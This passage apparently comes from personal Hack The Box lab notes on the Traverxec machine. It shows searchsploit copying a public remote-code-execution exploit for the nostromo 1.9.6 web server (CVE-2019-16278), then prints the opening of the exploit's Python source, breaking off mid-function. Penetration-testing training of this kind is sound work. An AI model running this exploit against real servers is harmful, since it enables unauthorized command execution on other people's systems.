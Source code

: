 ```js
```

```js
┌──(pelado㉿kali)-[~/OSCP/HTB/Labs/Traverxec]
└─$ searchsploit -m 47837.py
  Exploit: nostromo 1.9.6 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/47837
     Path: /usr/share/exploitdb/exploits/multiple/remote/47837.py
    Codes: CVE-2019-16278
 Verified: True
File Type: Python script, ASCII text executable
Copied to: /home/pelado/OSCP/HTB/Labs/Traverxec/47837.py
```

- Exploit
```python
┌──(pelado㉿kali)-[~/OSCP/HTB/Labs/Traverxec]
└─$ cat 47837.py 
# Exploit Title: nostromo 1.9.6 - Remote Code Execution
# Date: 2019-12-31
# Exploit Author: Kr0ff
# Vendor Homepage:
# Software Link: http://www.nazgul.ch/dev/nostromo-1.9.6.tar.gz
# Version: 1.9.6
# Tested on: Debian
# CVE : CVE-2019-16278

cve2019_16278.py

#!/usr/bin/env python

import sys
import socket

art = """

                                        _____-2019-16278
        _____  _______    ______   _____\    \
   _____\    \_\      |  |      | /    / |    |
  /     /|     ||     /  /     /|/    /  /___/|
 /     / /____/||\    \  \    |/|    |__ |___|/
|     | |____|/ \ \    \ |    | |       \
|     |  _____   \|     \|    | |     __/ __
|\     \|\    \   |\         /| |\    \  /  \
| \_____\|    |   | \_______/ | | \____\/    |
| |     /____/|    \ |     | /  | |    |____/|
 \|_____|    ||     \|_____|/    \|____|   | |
        |____|/                        |___|/



"""

help_menu = '\r\nUsage: cve2019-16278.py <Target_IP> <Target_Port> <Command>'

def connect(soc):
    response = ""
    try:
        while True:
            connection = soc.recv(1024)
            if len(connection) == 0:
                break
            response += connection
    except:
```